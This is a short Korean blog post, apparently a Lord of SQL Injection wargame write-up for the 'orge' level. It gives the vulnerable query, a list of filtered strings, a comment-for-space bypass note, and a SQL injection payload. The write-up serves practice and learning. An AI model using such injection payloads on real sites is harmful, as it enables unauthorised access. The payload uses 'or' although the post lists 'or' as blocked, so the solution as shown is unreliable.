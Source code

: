 ```yaml
---
title: "[LOS] orge"
date: 2025-03-26 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_orge where id='guest' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`
- `or`
- `and`

<br>


# Analysis

- 공백 문자 대신 주석 `/**/`을 사용할 수 있다.

<br>

# Payload

```
?pw='or/**/id='admin'/**/%23
```
